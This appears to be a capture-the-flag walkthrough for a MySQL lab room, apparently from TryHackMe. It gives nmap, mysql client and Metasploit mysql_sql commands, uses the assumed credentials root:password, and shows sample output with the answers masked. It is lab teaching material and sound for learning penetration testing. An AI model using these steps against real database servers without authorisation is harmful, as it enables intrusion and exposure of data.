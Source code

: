 - `nmap -A -p- {ROOM_IP}`
- `**06`

**We are going to assume that you found the credentials: `root:password` while enumerating subdomains of a web server.**

Good, now- we think we have a set of credentials (`root:password`). Let's double check that by manually connecting to the MySQL server. We can do this using the command:

- `mysql -h {ROOM_IP} -u {USERNAME} -p`
- `mysql -h {ROOM_IP} -u root -p`

Okay, we know that our login credentials work. Lets quit out of this session with `exit` and launch up Metasploit.

We're going to be using the `mysql_sql` module.

Search for, select and list the options it needs. What three options do we need to set? (in descending order).

- `search mysql_sql` in Metasploit and select it with `use {MODULE_NUMBER}` (example: `use 0`) command.
- `show options` to see which options we need to set to run this exploit.
- `P*******/R*****/U*******` - these are the three options we need to set.
- `set P******* password`, then `set R***** {ROOM_IP}`, then `set U******* root` (can be done in any order).
- Remember that these values are based on our earlier assumptions where our credentials are: `root:password`.
- Then run `exploit` or `run` command to run the exploit.

Run the exploit. By default it will test with the "select module()" command, what result does this give you?

- Output will be as shown below:

  ```
  {ROOM_IP}:{PORT} - Sending statement: 'select version()'...
  [*] {ROOM_IP}:{PORT} -  | ********ubuntu********* |
  [*] Auxiliary module execution completed
  ```

- `********ubuntu*********`

Great! We know that our exploit is landing as planned. Let's try to gain some more ambitious information. Change the "sql" option to "show databases". how many databases are returned?

- We have to set `SQL` option to `show databases` here so run `set SQL "show databases"` and run `options` to make sure `SQL` options is set to `show databases`.
- Then run `exploit` or `run` command again.
- Output will be similar whats shown below:

  ```
  [*] Running module against {ROOM_IP}
  [*] {ROOM_IP}:{PORT} - Sending statement: 'show databases'...
  [*] {ROOM_IP}:{PORT} -  | ********ion_schema |
  xxxxxxxxxxxxxxxx REDACTED xxxxxxxxxxxxxxxxxx
  [*] Auxiliary module execution completed
  ```
